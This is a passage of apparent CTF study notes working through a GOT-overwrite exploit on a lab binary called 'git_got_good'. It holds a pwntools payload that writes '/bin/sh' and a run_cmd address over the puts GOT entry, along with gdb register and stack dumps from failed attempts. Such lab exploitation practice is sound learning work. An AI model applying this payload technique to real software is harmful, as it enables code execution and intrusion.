 ```
$r8    : 0x73              
$r9    : 0x1               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdf08  →  0x00007fffffffe28f  →  "SHELL=/usr/bin/zsh"
```
###### Stack:
```
0x00007fffffffddc0│+0x0000: 0x0068732f6e69622f ("/bin/sh"?)     ← $rsp
0x00007fffffffddc8│+0x0008: 0x000000000040074b  →  <run_cmd+0> push rbp
0x00007fffffffddd0│+0x0010: 0x0000000000601018  →  0x00007ffff7e40b00  →  <puts+0> push r14
0x00007fffffffddd8│+0x0018: 0xeb5b5023e48daf00
0x00007fffffffdde0│+0x0020: 0x0000000000000001     ← $rbp
```
Our registers and stack look good I think?
...hmmm, still got a segfault

Okay, subtract 8 from the address we want to overwrite?
	The address stored in `rdx` is saved at `rcx+8`, and THAT is what we want to overwrote `puts`

##### Attempt 3:
###### Code
```python
def pld():
	cmd = p64(0x68732F6E69622F)
	rcAddr = p64(0x000000000040074B)
	pAddr  = p64(0x0000000000601010)
	return cmd + rcAddr + pAddr
def testPld():
	p =  process('/bin/bash')
	p.sendline('gdb ./git_got_good -q')
	p.sendline("break *0x0000000000400800")
	p.sendline("r")
	d = p.recvuntil("save:")
	p.sendline(pld())
	p.interactive()
```
###### Registers
```
$rax   : 0x68732f6e69622f  
$rbx   : 0x00007fffffffdef8  →  0x00007fffffffe268  →  "/home/kali/Desktop/5-Week/git_got_good"
$rcx   : 0x0000000000601010  →  0x00007ffff7fdd300  →  <_dl_runtime_resolve_xsave+0> push rbx
$rdx   : 0x000000000040074b  →  <run_cmd+0> push rbp
$rsp   : 0x00007fffffffddc0  →  0x0068732f6e69622f ("/bin/sh"?)
$rbp   : 0x00007fffffffdde0  →  0x0000000000000001
$rsi   : 0x00007fffffffdc10  →  0x206d2749202c6b4f ("Ok, I'm "?)
$rdi   : 0x00007fffffffdbe0  →  0x00007fffffffdc10  →  0x206d2749202c6b4f ("Ok, I'm "?)
$rip   : 0x0000000000400800  →  <main+149> mov QWORD PTR [rcx], rax
$r8    : 0x73              
$r9    : 0x1               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdf08  →  0x00007fffffffe28f  →  "SHELL=/usr/bin/zsh"
```
###### Stack:
```
0x00007fffffffddc0│+0x0000: 0x0068732f6e69622f ("/bin/sh"?)     ← $rsp
0x00007fffffffddc8│+0x0008: 0x000000000040074b  →  <run_cmd+0> push rbp
0x00007fffffffddd0│+0x0010: 0x0000000000601010  →  0x00007ffff7fdd300  →  <_dl_runtime_resolve_xsave+0> push rbx
0x00007fffffffddd8│+0x0018: 0x635fc6a8b393a100
0x00007fffffffdde0│+0x0020: 0x0000000000000001     ← $rbp
```
